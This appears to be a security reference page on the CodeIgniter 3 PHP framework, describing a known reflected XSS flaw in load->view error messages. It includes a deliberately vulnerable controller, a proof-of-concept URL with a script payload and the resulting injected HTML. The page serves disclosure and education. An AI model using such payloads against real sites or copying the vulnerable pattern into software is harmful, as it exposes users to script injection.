 ```yaml
---
title: CodeIgniter 3
description: Details on the PHP web framework "CodeIgniter 3" and its common security issues.
---
```


CodeIgniter 3 is the previous version of the popular PHP web framework. Maintenance of CodeIgniter 3 is slow though
ongoing nowadays. Most maintainers have moved to CodeIgniter 4.

---

## Versions of CodeIgniter 3

The latest CodeIgniter 3 release, 3.1.13 from March 3rd 2022, can be downloaded from
[this](https://codeigniter.com/userguide3/installation/downloads.html) site. Some fixes and improvements have been made
since then. They are available on the default `develop` branch on [GitHub](https://github.com/bcit-ci/CodeIgniter).
These changes are not part of any official release.

## XSS in CodeIgniter 3 via user controlled `load->view`

The latest release of CodeIgniter 3 is vulnerable to XSS
[[3]](https://www.synacktiv.com/sites/default/files/2022-11/CodeIgniter3_XSS_2022.pdf) when userinput is passed into
`$this->load->view($page);`. A fix exists, but was never merged [[4]](https://github.com/bcit-ci/CodeIgniter/pull/6113).
This applies to both the latest release and the latest development version.

Take this example code of a minimal CodeIgniter 3 controller inserting userinput into the `load->view` function:

```php
<?php
defined('BASEPATH') OR exit('No direct script access allowed');

class Welcome extends CI_Controller {
	public function index()
	{
		// Trigger the XSS by requesting http://localhost/?page=%3Cscript%3Ealert()%3C/script%3E
		$page = $this->input->get("page");
		if (isset($page)) {
			$this->load->view($page);
		}
	}
}
```

Since the requested view does not exist, CodeIgniter 3 will emit the error message `Unable to load the requested file:
$REQUESTED_VIEW .php`. The value of `$REQUESTED_VIEW` is not sanitized however, allowing an attacker to inject HTML/
JavaScript into the DOM.

```html collapse={5-51} title="Error" {57}
<html lang="en"><head>
<meta charset="utf-8">
<title>Error</title>
<style type="text/css">

::selection { background-color: #E13300; color: white; }
::-moz-selection { background-color: #E13300; color: white; }

body {
	background-color: #fff;
	margin: 40px;
	font: 13px/20px normal Helvetica, Arial, sans-serif;
	color: #4F5155;
}

a {
	color: #003399;
	background-color: transparent;
	font-weight: normal;
}

h1 {
	color: #444;
	background-color: transparent;
	border-bottom: 1px solid #D0D0D0;
	font-size: 19px;
	font-weight: normal;
	margin: 0 0 14px 0;
	padding: 14px 15px 10px 15px;
}

code {
	font-family: Consolas, Monaco, Courier New, Courier, monospace;
	font-size: 12px;
	background-color: #f9f9f9;
	border: 1px solid #D0D0D0;
	color: #002166;
	display: block;
	margin: 14px 0 14px 0;
	padding: 12px 10px 12px 10px;
}

#container {
	margin: 10px;
	border: 1px solid #D0D0D0;
	box-shadow: 0 0 8px #D0D0D0;
}

p {
	margin: 12px 15px 12px 15px;
}
</style>
</head>
<body>
	<div id="container">
		<h1>An Error Was Encountered</h1>
		<p>Unable to load the requested file: <script>alert()</script>.php</p>	</div>

</body></html>
```

![A browser alert with the text "Localhost says"](../../../../assets/pwnmemo/targets/codeigniter3/codeigniter3-xss-alert.png)
<FigCaption caption="The XSS is triggered by wrapping a JavaScript payload in script tags and passing it to the vulnerable parameter." />

You can find a full PoC project [here](https://github.com/jonasheschl/CodeIgniter3-XSS-PoC).

This vulnerability was discovered by Antoine Cervoise and Maxime Rinaudo at Synacktiv. See their vulnerability report
[[3]](https://www.synacktiv.com/sites/default/files/2022-11/CodeIgniter3_XSS_2022.pdf).

## References

1. [Official documentation](https://codeigniter.com/userguide3/index.html)
2. [GitHub repository](https://github.com/bcit-ci/CodeIgniter)
3. [XSS via user controlled `load->view`](https://www.synacktiv.com/sites/default/files/2022-11/CodeIgniter3_XSS_2022.pdf)
4. [Fix for XSS via user controlled `load->view`](https://github.com/bcit-ci/CodeIgniter/pull/6113)
5. [XSS via user controlled `load->view` PoC project](https://github.com/jonasheschl/CodeIgniter3-XSS-PoC)
